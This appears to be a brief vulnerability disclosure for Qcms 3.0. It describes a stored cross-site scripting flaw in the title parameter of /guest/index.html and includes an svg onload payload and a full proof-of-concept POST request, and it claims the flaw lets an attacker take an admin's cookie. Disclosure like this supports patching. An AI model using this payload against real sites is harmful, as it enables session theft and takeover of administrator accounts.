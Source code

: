 # Qcms version 3.0 has xss via the title parameter to the /guest/index.html URI	

set xss payload `<svg/onload=alert(0)>` to the title parameter in `/guest/index.html`,when admin user confirm this feedback in admin page there is alert box,attacker can get admin's cookie.
![](2.png)


	POST /guest/index.html HTTP/1.1
	Host: localhost
	Content-Length: 92
	Cache-Control: max-age=0
	Origin: http://localhost
	Upgrade-Insecure-Requests: 1
	Content-Type: application/x-www-form-urlencoded
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
	DNT: 1
	Referer: http://localhost/guest/index.html
	Accept-Language: zh-CN,zh;q=0.9
	Cookie: SESS49960de5880e8c687434170f6476605b=KyZyx79ethBmvgssXcM6DUdjHnnYxkfiw-86SorC64c; ly_main_nav_limit=15; lang=zh-cn; theme=default; bdshare_firstime=1519799317252; 
	Connection: close
	
	title=%3Csvg%2Fonload%3Dalert%28%27qcms%27%29%3E&name=test&email=test%40test.t&content=test

![](1.png)

